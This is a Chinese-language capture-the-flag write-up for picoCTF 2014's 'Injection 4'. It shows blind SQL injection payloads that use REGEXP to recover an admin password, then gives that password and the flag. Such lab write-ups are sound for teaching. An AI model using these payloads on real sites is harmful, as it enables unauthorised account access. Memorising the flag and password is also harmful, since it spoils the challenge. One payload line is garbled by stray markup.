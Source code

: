 # Injection 4
[Daedalus的網頁](http://web2014.picoctf.com/injection4/)又加強了，沒有登入選單用escape特殊字元，而註冊的頁面接受名字的部份可以inject，可他們把註冊功能關掉了，填入名字只會能告訴你名字有沒有人用過。
 1. 既然可以inject名稱，那就可以猜admin的密碼
  * 先來猜長度：```admin' AND password REGEXP '^[a-zA-Z]{1,50}$' #```，賓果，繼續手動二分搜尋，找到長度是27
 2. 再來要猜測密碼長相了
  * 看看有沒有特殊字元： ```admin' AND password REGEXP '\W' #}}}，有沒有數字： {{{admin' AND password REGEXP '[0-9]' #```，沒有！太好了！
 3. 再來一個字母一個字母猜，得到有```a,d,e,g,h,i,l,n,o,p,r,ss,t,u,v,w,y```
  * 把他組成單字再猜：```hi, this, you, ll, never, guess, password```。
  * 阿哈！得到密碼 = ```youllneverguessthispassword```
 4. 接下來只要登入就能拿到 ```flag = whereof_one_cannot_speak_thereof_one_must_be_silent```
